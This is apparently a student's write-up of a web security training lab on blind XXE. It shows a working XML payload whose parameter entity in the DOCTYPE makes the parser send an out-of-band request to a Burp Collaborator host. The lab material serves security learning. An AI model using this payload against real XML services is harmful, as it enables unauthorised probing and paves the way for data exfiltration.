 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

>This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

>To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Observations
My burp collaborator instance: `wkkdpapekbhuwqtmlrka36my0p6fu4.burpcollaborator.net`

I did some reading here to learn what XML parameter entities are https://www.w3resource.com/xml/parameter-entities.php


So it looks that I can create a payload something like below, and then reference it with %xxe; 

`<!ENTITY % xxe "http://wkkdpapekbhuwqtmlrka36my0p6fu4.burpcollaborator.net" >`

We are told that we cannot make this request to the collaborator from within the "stock check" tags of XML.

### Solution
Instead, we will execute our XXE right after the XML declaration statement. So our payload looks like this:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wkkdpapekbhuwqtmlrka36my0p6fu4.burpcollaborator.net"> %xxe; ]>`

This works because we are executing our XXE within the DTD itself (the doctype block).

Send the request and the lab is solved!